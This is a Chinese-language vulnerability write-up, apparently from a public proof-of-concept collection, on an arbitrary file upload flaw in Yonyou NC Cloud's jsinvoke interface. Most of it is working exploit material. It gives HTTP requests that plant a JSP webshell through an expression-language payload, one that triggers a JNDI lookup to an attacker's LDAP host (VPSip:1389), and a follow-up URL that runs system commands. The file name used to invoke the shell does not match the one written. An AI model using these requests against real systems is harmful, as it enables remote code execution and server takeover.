


# 用友 NC Cloud jsinvoke 任意文件上传漏洞

## 漏洞描述

用友 NC Cloud jsinvoke 接口存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件至服务器中，获取系统权限

## 漏洞影响

用友 NC Cloud

## 网络测绘

```
app="用友-NC-Cloud"
```

## 漏洞复现

登陆页面


验证POC

```
POST /uapjs/jsinvoke/?action=invoke
Content-Type: application/json

{
    "serviceName":"nc.itf.iufo.IBaseSPService",
    "methodName":"saveXStreamConfig",
    "parameterTypes":[
        "java.lang.Object",
        "java.lang.String"
    ], 
    "parameters":[
        "${param.getClass().forName(param.error).newInstance().eval(param.cmd)}",
        "webapps/nc_web/407.jsp"
    ]
}
POST /uapjs/jsinvoke/?action=invoke HTTP/1.1
Host: 
Connection: Keep-Alive
Content-Length: 253
Content-Type: application/x-www-form-urlencoded


{"serviceName":"nc.itf.iufo.IBaseSPService","methodName":"saveXStreamConfig","parameterTypes":["java.lang.Object","java.lang.String"],"parameters":["${''.getClass().forName('javax.naming.InitialContext').newInstance().lookup('ldap://VPSip:1389/TomcatBypass/TomcatEcho')}","webapps/nc_web/301.jsp"]}
```



```
/cmdtest.jsp?error=bsh.Interpreter&cmd=org.apache.commons.io.IOUtils.toString(Runtime.getRuntime().exec(%22whoami%22).getInputStream()) 
```

